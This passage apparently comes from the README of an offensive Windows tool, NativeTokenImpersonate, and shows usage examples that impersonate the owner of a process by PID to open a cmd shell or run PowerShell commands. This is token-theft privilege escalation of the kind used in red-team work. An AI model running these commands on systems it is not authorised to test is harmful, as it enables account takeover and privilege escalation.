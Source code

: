 **Example** - Impersonate the user owning the process with PID 16172 and open a Cmd shell:

```
NativeTokenImpersonate.exe -pid 16172
```

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/nativetokenstealer/Screenshot_1.png)


**Example** - Impersonate the user owning the process with PID 16172 and run a Powershell command:

```
NativeTokenImpersonate.exe -pid 16172 -bin c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -args "whoami; pause"
```

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/nativetokenstealer/Screenshot_2.png)

